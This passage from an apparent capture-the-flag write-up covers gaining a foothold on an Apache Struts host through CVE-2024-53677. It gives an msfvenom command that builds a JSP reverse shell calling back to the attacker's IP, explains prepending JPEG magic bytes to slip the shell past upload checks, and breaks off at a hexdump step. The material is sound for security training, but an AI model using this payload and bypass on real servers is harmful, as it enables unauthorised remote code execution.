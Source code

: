 
## 3. Foothold: {#3-dot-foothold}


### Getting RCE on the host via `CVE-2024-53677`: {#getting-rce-on-the-host-via-cve-2024-53677}

Quick overview of how we will attack this host:

As we know the application expects an image to be uploaded as it does extension filtering &amp; also checks for magic bytes, we also know that Apache Struts, suffers from an OGNL &amp; vulnerability where we can directly manipulate the action object of the value stack so therefore we can upload a fake image by manipulating the magic bytes to match that of a real image (whilst still having a `.jpg .gif` etc extension) however we will  embed a java based reverse shell within the file. We can then modify the image extension by manipulating the Action Object and therefore (should) be able to get RCE.


#### Creating Our Malicious image/reverse-shell With `msfvenom`: {#creating-our-malicious-image-reverse-shell-with-msfvenom}

This part is we simply create take a `.jsp` reverse shell and rename by giving it the extension `.jpg` `.gif`. We can do this easily with msfvenom

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[yourIP] LPORT=[yourListeningPort] -f raw > shell.jsp
```

{{< figure src="/ox-hugo/2025-05-30-204127_.png" >}}


#### Prepending Magic-Bytes To The reverse-shell To Bypass Validation: {#prepending-magic-bytes-to-the-reverse-shell-to-bypass-validation}

In order for this to work we are going to have to modify the extension by renaming it to `shell.jpg` and then we are going to have to prepend the magic-bytes so we can bypass the byte check that takes place.

+Note+: We are going to go with `.jpg` format as this only requires we manipulate the first 3 bytes as opposed to first 8 for the `.gif` format.

When I am doing a magic-byte bypass the best list I have found is [here](https://filesig.search.org/), it provides a list of magic bytes for various file formats.

As you can see on the page if we look for the `jpg` format we can see it lists the HEX/Header/Magic-Bytes value as `FF D8` however this is only `2` bytes, so we will need to figure out what the other 1 byte will be.
![](/ox-hugo/2025-05-30-201854_.png)

Luckily this is easy enough to do, we have 3 options here.



-  1. Run `hexdump` on a `jpg`:

    ```shell
    hexdump /home/kali/Downloads/[jpgName].jpg | head -n 1
    ```

